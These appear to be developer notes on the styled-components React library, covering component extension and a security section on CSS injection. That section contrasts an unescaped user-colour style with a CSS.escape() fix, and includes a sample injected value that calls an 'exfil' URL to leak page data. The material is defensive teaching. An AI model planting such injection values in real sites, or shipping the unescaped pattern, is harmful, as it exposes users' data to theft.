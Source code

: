 # Styled-Components: Usage Notes

This page contains some notes on things to know after getting started with `styled-components`. The documentation on the `styled-components` website is already great, so we won't be covering all of it again. Go check it out, then come back for these special points.

Docs: [https://styled-components.com/docs](https://styled-components.com/docs)

<hr />

## Extending Components

styled-components is great for applying styles to normal DOM elements. It's also possible to re-use those components and add more on top of them. The syntax just changes a little bit.

```js
const Button = styled.button`
    background-color: lightgray;
    font-size: 16px;
`;

const SpecialButton = styled(Button)`
    border: 2px solid blue;
    padding: 0.5em;
`;
```

## styled-components with Existing CSS

Docs: [https://styled-components.com/docs/advanced#existing-css](https://styled-components.com/docs/advanced#existing-css)

This is a good piece to read after playing with styled-components for a bit. It explains some key points about what is happening behind the scenes of the library, and some potential collisions with pre-existing CSS styles.

## A Note on Security: CSS Injection

Beware of CSS injection possibilities when enabling JavaScript execution in your styles. CSS injection can be used to exfiltrate valuable information from a webpage. Where possible, you'll want to HTML-encode any "JS computed styles" in your components. This is possible by utilizing Web APIs, such as `CSS.escape()`, or npm packages like `cssesc`.

CSS.escape()

- Link: [https://developer.mozilla.org/en-US/docs/Web/API/CSS/escape](https://developer.mozilla.org/en-US/docs/Web/API/CSS/escape)

- Browser compatibility: [https://developer.mozilla.org/en-US/docs/Web/API/CSS/escape#Browser_compatibility](https://developer.mozilla.org/en-US/docs/Web/API/CSS/escape#Browser_compatibility)

cssesc

- npm: [https://www.npmjs.com/package/cssesc](https://www.npmjs.com/package/cssesc)
- Github: [https://github.com/mathiasbynens/cssesc](https://github.com/mathiasbynens/cssesc)

For instance, consider this scenario. We're using CSS-in-JS to write a user profile page, and we want to allow our users to choose their own profile color. Admittedly, we're making the questionable choice of allowing users to enter their own colors, even hex values! It's only CSS so should be harmless, right? _Not quite._

### Don't do this...

See how, if we aren't careful, `props.background` could be malicious?

```js
const ProfileImage = styled.div`
    padding-left: 50px;

    display: flex;
    flex-direction: column
    div {
        margin-top: 20px;
        background: ${(props) => {
            /* experiment with console.log here to see results */
            return props.background ? `${props.background}` : 'nope';
        }};
    }
`;
```

### Do this...

```js
const ProfileImage = styled.div`
    width: 100px;
    height: 100px;
    background: ${(props) => {
        /* experiment with console.log here to see results */
        return props.background ? `#${CSS.escape(props.background)}` : 'none';
    }};
    border-radius: 50%;
`;
```

Even if a malicious user naively tries to exfiltrate data from the DOM by making malicious HTTP calls via CSS properties, like so:

```css
#20B2AA; background: url(https://localhost:5001/exfil/get/j);
```

The enclosing `CSS.escape()` call causes the string to be HTML-encoded before executing in the DOM. So, no malicious exfiltration calls are executed.

Check out some of these articles for more on CSS Exfil

- [https://medium.com/bugbountywriteup/exfiltration-via-css-injection-4e999f63097d](https://medium.com/bugbountywriteup/exfiltration-via-css-injection-4e999f63097d)
- [https://www.netsparker.com/blog/web-security/private-data-stolen-exploiting-css-injection/](https://www.netsparker.com/blog/web-security/private-data-stolen-exploiting-css-injection/)
- [https://www.mike-gualtieri.com/posts/stealing-data-with-css-attack-and-defense](https://www.mike-gualtieri.com/posts/stealing-data-with-css-attack-and-defense)